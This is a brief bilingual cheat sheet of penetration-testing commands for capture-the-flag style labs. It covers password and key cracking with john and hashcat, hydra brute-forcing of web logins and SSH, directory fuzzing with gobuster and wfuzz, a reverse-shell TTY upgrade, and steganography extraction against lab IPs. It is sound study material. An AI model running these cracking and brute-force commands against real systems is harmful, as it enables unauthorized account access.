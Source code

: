 ## john
### hashtype
    cat hash.txt | hash-identifier
### GOSTで重複排除
    john --wordlist=easypeasy.txt --format=GOST hash.txt 
### passphrase付きrsaファイルはまずssh2johnでhash化してからjohn
    python3 /usr/share/john/ssh2john.py idrsa.id_rsa > rsahash
    john --wordlist=wds/rockyou.txt rsahash
### zippassword
    zip2john chrismaslists.xip > hash.txt
    john hash.txt

## hydra
### webloginform
    hydra -l molly -P rockyou.txt 10.10.112.172 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -V  
### SSH
    hydra -p 4567 -l molly -P wds/rockyou.txt 10.10.191.167 -t 4 ssh

## gobuster hidden directories
    gobuster dir -u http://10.10.69.172:3000/ -w wds/rockyou.txt

## hashcat(res.txtに出力 '-m 1800' はsha-512)
    hashcat -m 1800 -a 0 -o res.txt --remove h.txt wds/dirb/common.txt

## wfuzz
    wfuzz -X POST -w wds/wfuzz/general/common.txt --hh=45 http://10.10.149.50/api/items?FUZZ=oops

## reverse shell で must be run from a terminal エラー (spawning a TTY Shell)
    python -c 'import pty; pty.spawn("/bin/sh")'

## grep (ipaddress)
    grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" file2.txt

## steghide
### ファイル抽出（PNGはzsteg） 
    steghide extract -sf binarycodepixabay.jpg
    binwalk meme.jpg
    strings meme.jpg 
